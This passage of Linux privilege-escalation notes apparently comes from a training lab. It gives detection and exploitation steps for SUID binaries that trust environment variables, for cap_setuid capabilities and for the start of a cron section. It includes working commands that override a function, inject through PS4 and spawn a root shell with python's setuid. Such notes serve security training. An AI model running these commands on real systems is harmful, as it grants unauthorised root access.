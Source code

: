 5. In command prompt type: **id**

#  SUID (Environment Variables #2)

### Detection

1. In command prompt type: **find / -type f -perm -04000 -ls 2>/dev/null**

2. From the output, make note of all the SUID binaries.

3. In command prompt type: strings **/usr/local/bin/suid-env2**

4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:

**function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }**

2. In command prompt type:

**export -f /usr/sbin/service**

3. In command prompt type: **/usr/local/bin/suid-env2**

**Exploitation Method #2**

Linux VM

1. In command prompt type:

**env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c  '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'**

#  Capabilities

### Detection

1. In command prompt type: **getcap -r / 2>/dev/null**

2. From the output, notice the value of the “cap_setuid” capability.

### Exploitation

1. In command prompt type:

**/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'**

2. Enjoy root!

# Cron (Path)                            

### Detection
